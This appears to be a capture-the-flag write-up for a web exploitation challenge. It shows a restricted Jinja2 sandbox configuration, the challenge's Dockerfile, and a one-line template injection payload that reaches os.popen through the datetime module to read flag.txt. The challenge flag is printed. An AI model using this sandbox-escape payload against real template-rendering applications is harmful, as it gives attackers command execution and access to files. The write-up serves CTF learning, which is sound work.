



# 🛠️ Solution to MyProject Challenge

**Category**: Web Exploitation  
**Flag**: `VSL{860dfaeab298e2e8fc76a09beb3a1f0d}`

---

## 📜 Description

This challenge involves building a secure email application while identifying potential vulnerabilities.

---

## 💡 Solution

The provided code has robust mechanisms to escape potentially harmful input, effectively mitigating Remote Code Execution (RCE). Below is a detailed analysis:

### 🚀 Code Overview

**Sanitized Environment Setup**:

```python
SAFE_GLOBALS = {
    'str': str,
    'quote': urls.quote,
    'urlencode': urls.urlencode,
    'datetime': datetime,
    'len': len,
    'abs': abs,
    'min': min,
    'max': max,
    'sum': sum,
    'filter': filter,
    'reduce': functools.reduce,
    'map': map,
    'round': round,
    'relativedelta': lambda *a, **kw: relativedelta.relativedelta(*a, **kw),
}

SAFE_FILTERS = {
    'lower': str.lower,
    'upper': str.upper,
    'capitalize': str.capitalize,
    'title': str.title,
    'safe': lambda x: x,
}

jinja_env = SandboxedEnvironment(
    block_start_string="<%",
    block_end_string="%>",
    variable_start_string="{{",
    variable_end_string="}}",
    comment_start_string="<%doc>",
    comment_end_string="</%doc>",
    line_statement_prefix="%",
    line_comment_prefix="##",
    trim_blocks=True,
    autoescape=True,
    undefined=NoSelfUndefined,
)
jinja_env.globals.clear()
jinja_env.globals.update(SAFE_GLOBALS)
jinja_env.filters.clear()
jinja_env.filters.update(SAFE_FILTERS)
jinja_env.enable_async = False
``` 
🐳 Dockerfile
The application runs in a minimal Dockerized environment for better isolation. Here's the Dockerfile:
```
FROM python:3.9-slim
WORKDIR /app
COPY src/requirements.txt .
RUN pip install --no-cache-dir -r requirements.txt
COPY src/ .
RUN chmod 644 /app/app.py \
    && chmod -R 755 /app/templates \
    && chmod 444 /app/flag.txt
RUN adduser --disabled-password --gecos "" appuser2 && \
    chown -R appuser2:appuser2 /app
USER appuser2
ENV FLASK_ENV=production
ENV PYTHONUNBUFFERED=1
EXPOSE 1005
CMD ["python", "app.py"]
```
🔍 Exploit Strategy
Despite the strict escape mechanisms, we can leverage Python 3.9's datetime module to construct a payload.
Inspect datetime module: The sys module is accessible within datetime.

Access os: Through sys.modules, we can reference os.

Execute Commands: Using os.popen, we can read sensitive files.

🔧 Payload:
```{{datetime.sys.modules.get('os').popen('cat flag.txt').read()}}```